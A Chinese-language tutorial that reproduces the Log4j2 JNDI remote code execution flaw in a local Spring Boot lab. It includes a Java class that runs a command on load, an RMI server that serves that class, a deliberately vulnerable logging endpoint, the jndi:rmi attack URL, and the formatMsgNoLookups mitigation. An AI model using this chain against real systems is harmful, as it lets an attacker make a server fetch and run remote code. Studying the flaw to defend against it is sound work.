 # Log4j2 远程执行漏洞复现

## 描述

log4j2为了方便大家配置，提供jdni lookup的功能。可以使用${}包裹jdni查询表达方式，具体如下。
```xml
<File name="Application" fileName="application.log">
  <PatternLayout>
    <pattern>%d %p %c{1.} [%t] $${jndi:logging/context-name} %m%n</pattern>
  </PatternLayout>
</File>
```
正是上面lookup功能支持导致可以远程执行代码。

## 构建攻击

构建该攻击需要具备如下条件：

- 构造支持rmi、ldap协议的服务器，该服务提供攻击文件的下载地址。
- 构造支持下载攻击程序的服务器。
- 在日志打印信息中构造攻击。

## 具体步骤

1、准备spring-boot项目。可以通过spring官网提供的initializr来处理。

```html
https://start.spring.io/
```

2、修改项目的pom.xml，确保使用log4j2，项目中增加lombok，方便使用@Slf4j注解，来进行日志打印。

```xml
    <dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
			<exclusions>
				<exclusion>
					<groupId>org.springframework.boot</groupId>
					<artifactId>spring-boot-starter-logging</artifactId>
				</exclusion>
			</exclusions>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-log4j2</artifactId>
		</dependency>
		<dependency>
			<groupId>org.projectlombok</groupId>
			<artifactId>lombok</artifactId>
		</dependency>
```

3、准备攻击文件

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.util.Hashtable;


//将编译好的类，复制到spring-boot的编译的target/static 目录下
public class Attack implements ObjectFactory {
    static {
        try {
            ProcessBuilder processBuilder = new ProcessBuilder();
          	// 构造攻击调用日历程序
            processBuilder.command("cal");
            Process process = processBuilder.start();
            try (BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()))) {
                String line = null;
                while(null!= (line=reader.readLine())){
                    System.out.println(line);
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

4、构造远程rmi服务

```java
//rmi端口
Registry registry = LocateRegistry.createRegistry(1099);
//注册获取远程信息，并连接攻击程序地址
Reference exploit = new Reference("Attack", "Attack", "http://127.0.0.1:8080/");
ReferenceWrapper refObjWrapper = new ReferenceWrapper(exploit);
//绑定服务
registry.bind("exploit", refObjWrapper);
```

5、构造日志打印接口

```java
    @GetMapping("log")
    String log(@RequestParam String message) {
      //${}可以由远程传入，一般为POST方式提交，此处为了简单使用get方式。
        log.error("${" + message + "}");
        return message;
    }
```

6、执行攻击

```bash
http://ip:port/log?message=jndi:rmi://ip:port/exploit
攻击途径：
由攻击者访问应用，应用访问攻击者提供rmi服务，rmi服务提供攻击程序，应用成功的下载并执行。
```

## 解决方案

```bash
jvm启动增加 -Dlog4j2.formatMsgNoLookups=true
```



 ## 实现代码参考

```bash
https://github.com/jiangwh/something
```

